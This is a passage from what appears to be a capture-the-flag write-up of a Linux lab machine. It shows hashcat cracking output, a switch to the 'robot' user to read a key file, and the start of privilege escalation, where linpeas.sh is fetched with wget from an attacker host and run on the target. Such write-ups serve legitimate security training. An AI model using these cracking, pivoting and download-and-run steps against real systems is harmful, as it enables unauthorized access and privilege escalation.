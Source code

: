 ```bash
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> harder

Started: Thu Nov 12 21:40:46 2020
Stopped: Thu Nov 12 21:41:14 2020
```

**We can use the above creds to pivot to robot user. Now we can read the 2nd key and submit it.**

```bash
robot@linux:~$ whoami
robot
robot@linux:~$ cat key-2-of-3.txt 
```

### PRIVILEGE ESCALATION

Lastly, we have too look for a path to privesc ourseleves to the root user. For this I am using **Linpeas script**. It is basically an upgrade to the **Linenum script** with color coded output for severity and cool animation. This is the part of _privilege-escalation-awesome-scripts-suite_ which also has one for Windows too (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). \
I did a full scan using the -a option. One can go and read the color output using.\

```bash
less -r output_file
```

```bash
robot@linux:/dev/shm$ wget http://10.13.6.171:8000/linpeas.sh
--2020-11-13 02:52:38--  http://10.13.6.171:8000/linpeas.sh
Connecting to 10.13.6.171:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 293889 (287K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[=================================================================================================================================================>] 293,889      357KB/s   in 0.8s   

2020-11-13 02:52:40 (357 KB/s) - ‘linpeas.sh’ saved [293889/293889]

robot@linux:/dev/shm$ ls
linpeas.sh
robot@linux:/dev/shm$ ./linpeas.sh -a > local_enum.txt
robot@linux:/dev/shm$ ls -la
total 380
drwxrwxrwt  2 root  root      80 Nov 13 03:00 .
drwxr-xr-x 14 root  root     480 Nov 13 02:15 ..
-rwxrwxr-x  1 robot robot 293889 Nov 13 02:48 linpeas.sh
-rw-rw-r--  1 robot robot  91965 Nov 13 03:02 local_enum.txt
```
